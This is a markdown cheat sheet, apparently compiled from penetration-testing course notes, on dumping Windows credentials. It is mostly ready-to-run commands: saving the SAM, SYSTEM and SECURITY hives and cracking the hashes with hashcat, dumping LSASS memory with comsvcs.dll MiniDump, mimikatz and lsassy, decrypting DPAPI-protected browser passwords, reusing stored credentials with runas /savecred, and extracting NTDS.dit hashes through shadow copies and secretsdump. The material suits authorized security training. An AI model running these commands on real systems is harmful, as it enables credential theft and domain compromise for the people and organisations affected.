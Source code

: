 # Extracting Password from Windows Systems

## SAM, SYSTEM, and SECURITY

With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline.

Registry hives

| Registry Hive    | Description                                                                                                                                 |
|------------------|---------------------------------------------------------------------------------------------------------------------------------------------|
| HKLM\SAM         | Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.                |
| HKLM\SYSTEM      | Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.                        |
| HKLM\SECURITY    | Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more. |

If we're only interested in dumping the hashes of local users, we need only HKLM\SAM and HKLM\SYSTEM

**Using reg.exe to copy registry hives**
````
> reg.exe save hklm\sam C:\sam.save
> reg.exe save hklm\system C:\system.save
> reg.exe save hklm\security C:\security.save
````
**File Directory**
````
> C:\Windows\System32\config\SAM
> C:\Windows\System32\config\SECURITY
> C:\Windows\System32\config\SYSTEM
````
Copy to local machine
````
$ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
$ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)

$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
````

**Dump Sam Remote**
````
$ netexec smb <IP> --local-auth -u <user> -p <password> --sam
````

**DPAPI**
In addition to the DCC2 hashes, we previously saw that the machine and user keys for DPAPI were also dumped from hklm\security. The Data Protection Application Programming Interface, or DPAPI, is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis.

| Applications              | Use of DPAPI                                                                                   |
|---------------------------|-----------------------------------------------------------------------------------------------|
| Internet Explorer         | Password form auto-completion data (username and password for saved sites).                  |
| Google Chrome             | Password form auto-completion data (username and password for saved sites).                  |
| Outlook                   | Passwords for email accounts.                                                                 |
| Remote Desktop Connection | Saved credentials for connections to remote machines.                                        |
| Credential Manager        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.  |

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI.
````
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
````
Dump lsa & dpapi Remote
````
$ netexec smb <IP> --local-auth -u <user> -p <password> --lsa
$ netexec smb <IP> -u <user> -p <password> --dpapi
$ netexec smb <IP> -u <user> -p <password> --dpapi cookies
$ netexec smb <IP> -u <user> -p <password> --dpapi nosystem
$ netexec smb <IP> -u <user> -p <password> --local-auth --dpapi nosystem
````

## LSASS

We will also benefit from targeting the Local Security Authority Subsystem Service (LSASS). As covered in the Credential Storage section of this module, LSASS is a core Windows process responsible for enforcing security policies, handling user authentication, and storing sensitive credential material in memory.

### Dumping LSASS process memory

**Task Manager method**
- Open Task Manager
- Select the Processes tab
- Find and right click the Local Security Authority Process
- Select Create dump file

A file called lsass.DMP is created and saved in %temp%. `cp <path_lsass.dmp> <directory_wanted>`

**Rundll32.exe & Comsvcs.dll method**
````
> tasklist /svc (Find PID Lsass from cmd)
> Get-Process lsass (Find PID Lsass from powershell)
> rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
````

After extracting the process, we will copy it to our machine.

**Pypykatz to extract credentials**
````
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp
````

**Mimikatz**
````
# privilege::debug
# sekurlsa::logonpasswords
# sekurlsa::logonPasswords full
# sekurlsa::credman
````

**Dump Remote**
````
$ nxc smb <IP> -u <user> -p '<password>' -M lsassy

````

## Windows Credential Manager

Credential Manager is a feature built into Windows since Server 2008 R2 and Windows 7. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites.

- %UserProfile%\AppData\Local\Microsoft\Vault\
- %UserProfile%\AppData\Local\Microsoft\Credentials\
- %UserProfile%\AppData\Roaming\Microsoft\Vault\
- %ProgramData%\Microsoft\Vault\
- %SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\

Each vault folder contains a Policy.vpol file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials.

| Name               | Description                                                                                                                             |
|--------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
| Web Credentials     | Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge. |
| Windows Credentials | Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories. |

**Enumerating credentials with cmdkey**
````
>cmdkey /list
Currently stored credentials:
    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
````
Stored credentials are listed with the following format:

| Key         | Value                                                                                                                                             |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------|
| Target      | The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.                              |
| Type        | The kind of credential. Common types are Generic for general credentials, and Domain Password for domain user logons.                            |
| User        | The user account associated with the credential.                                                                                                  |
| Persistence | Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with Local machine persistence survive reboots. |

We can use runas to impersonate the stored user like so:
````
>runas /savecred /user:SRV01\mcharles cmd
````

## Active Directory and NTDS.dit

**Creating shadow copy of C:**
````
C:\> vssadmin CREATE SHADOW /For=C:
C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
````

**Copy NTDS.dit file**
````
> copy %SystemRoot%\NTDS\Ntds.dit <directory_to_copy>
````

**Extract Hashes**
````
$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
````

**Extract Remote**
````
$ netexec smb <IP> -u <user> -p <password> -M ntdsutil
$ nxc smb <IP> -u <user> -p '<password>' --ntds
$ nxc smb <IP> -u <user> -p '<password>' --ntds --user Administrator (Dump a specific user only)
$ impacket-secretsdump <domain>/<user>:<password>@<ip_dc>
````

